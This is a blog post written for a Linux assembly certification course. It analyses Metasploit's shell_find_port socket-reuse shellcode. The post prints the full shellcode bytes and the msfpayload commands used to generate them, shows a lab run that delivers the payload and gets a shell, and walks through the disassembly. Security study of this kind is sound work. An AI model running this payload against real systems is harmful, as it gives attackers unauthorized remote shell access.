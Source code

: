 ```yaml
---
title:  "[SLAE 5] Metasploit Shell Find Port"
categories: [SLAE]
---
```


![Logo](/assets/images/tux-root.png)

## Metasploit shell_find_port shellcode analysis

This post is part of the 5th assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course and will analyse a Metasploit socket reuse shellcode: _`linux/x86/shell_find_port`_.  I've started by analysing the following payload: 
```bash
# msfpayload linux/x86/shell_find_port S
 
       Name: Linux Command Shell, Find Port Inline
     Module: payload/linux/x86/shell_find_port
    Version: 0
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 169
       Rank: Normal
 
Provided by:
  Ramon de C Valle <rcvalle metasploit.com>
 
Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
CPORT  60957            no        The local client port
 
Description:
  Spawn a shell on an established connection
```

So this is actually a **_port reuse shellcode_**: it will search for an already established connection (based on the local client port specified in CPORT variable) and spawn a shell over that connection. Nice! There is a great description of how this payload functions at [BlackHatLibrary](http://www.blackhatlibrary.net/Shellcode/Socket-reuse).

To test this payload we'll need:
* A server that listens for connections and also executes payloads 
* A client that will establish a connection with the server from a fixed local port, then send our metasploit shellcode.

We'll use the [socket-loader.c](http://www.blackhatlibrary.net/Shellcode/Appendix#socket-loader.c) and [socket-reuse-send.c](http://www.blackhatlibrary.net/Shellcode/Appendix#socket-reuse-send.c) from BlackhatLibrary. We'll first compile and start the server: 

```bash
$ gcc -Wall -o socket-loader socket-loader.c 
$ ./socket-loader 7001
```
 
Then generate the metasploit payload and integrate it into the socket-reuse-send source file: 
```bash
# msfpayload linux/x86/shell_find_port CPORT=4444 C
/*
 * linux/x86/shell_find_port - 62 bytes
 * http://www.metasploit.com
 * VERBOSE=false, CPORT=4444, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] = 
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"
"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b"
"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"
"\xcd\x80";
 
# gcc -Wall -o socket-reuse-send socket-reuse-send.c 
```

The syntax for client is as follows:
```bash
./socket-reuse-send <server_ip> <server_port> <client_ip> <local_client_port>
```

So the next line will connect to the server listening on port 7001 and send the payload generated earlier from the local port 4444. The payload will then be executed by the server and we'll get a shell: 

```bash
# ./socket-reuse-send 192.168.56.1 7001 192.168.56.101 4444
 [*] Connecting to 192.168.56.1
 [*] Sending payload
whoami
liv
```

So the payload is working as expected, now onto analysis. We'll first try to use the __*`sctest`*__ binary from __*`libemu`*__: 
```
# msfpayload linux/x86/shell_find_port CPORT=4444 R > shellcode.bin
$ cat shellcode.bin | /opt/libemu/bin/sctest -vvv -S -s 1000 -G shellcode.dot
$ dot shellcode.dot -T png -o shellcode.png
```

<a href="/assets/images/libemu.png">
<img alt="Shellcode dot" src="/assets/images/libemu-small.png" class="figure-body">
</a>

This way we can get a feeling about how this shellcode is functioning. As we'll see later, there is a final piece missing from the picture, because the sctest emulator is not leaving the loop (marked with red arrows). We'll use a disassembler to examine all the instructions: 
```bash
$ echo -ne "\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" | ndisasm -b 32 -
```

First operation done by a server is, as seen in the picture, to execute _`getpeername`_ in a loop. This will try to obtain information about a peer connected to a specific file descriptor. 
```c
int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
00000000  31DB              xor ebx,ebx
00000002  53                push ebx
00000003  89E7              mov edi,esp
00000005  6A10              push byte +0x10     ;  addrlen
00000007  54                push esp            ; *addrlen
00000008  57                push edi            ; *addr
00000009  53                push ebx            ; sockfd to search
0000000A  89E1              mov ecx,esp
0000000C  B307              mov bl,0x7          ; int call - SYS_GETPEERNAME (7)
getpeername_loop:
0000000E  FF01              inc dword [ecx]     ; increment fd to be checked
00000010  6A66              push byte +0x66     ; sys_socketcall
00000012  58                pop eax
00000013  CD80              int 0x80
```

The next part checks for a specific condition for any file descriptor found: it will verify the source port and if it's different than 4444 we'll increment the file descriptor and re-execute the loop: 
```c
; 115c(hex) = 4444 (dec)
; compare port
; struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
00000015  66817F02115C      cmp word [edi+0x2],0x5c11
; if not, jump to getpeername_loop
0000001B  75F1              jnz 0xe
```

In case a connection was found with the source port equal to 4444, it will execute in a loop 3 _`dup2`_ calls, and duplicate stdin, stdout and stderr to the found file descriptor: 
```c
0000001D  5B                pop ebx         ; old fd parameter;  
0000001E  6A02              push byte +0x2  ; 
00000020  59                pop ecx         ; new fd
dup2_loop:
00000021  B03F              mov al,0x3f     ; sys_dup2 syscall
00000023  CD80              int 0x80
00000025  49                dec ecx
00000026  79F9              jns 0x21        ; if not -1, jump to dup2_loop label
The final piece of the shellcode executes /bin/sh: 
00000028  50                push eax
00000029  682F2F7368        push dword 0x68732f2f   ; 'hs//'
0000002E  682F62696E        push dword 0x6e69622f   ; 'nib/'
00000033  89E3              mov ebx,esp     ; '/bin/sh\x00'
00000035  50                push eax
00000036  53                push ebx
00000037  89E1              mov ecx,esp     ; address of the parameters array
00000039  99                cdq
0000003A  B00B              mov al,0xb      ; sys_execve
0000003C  CD80              int 0x80
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
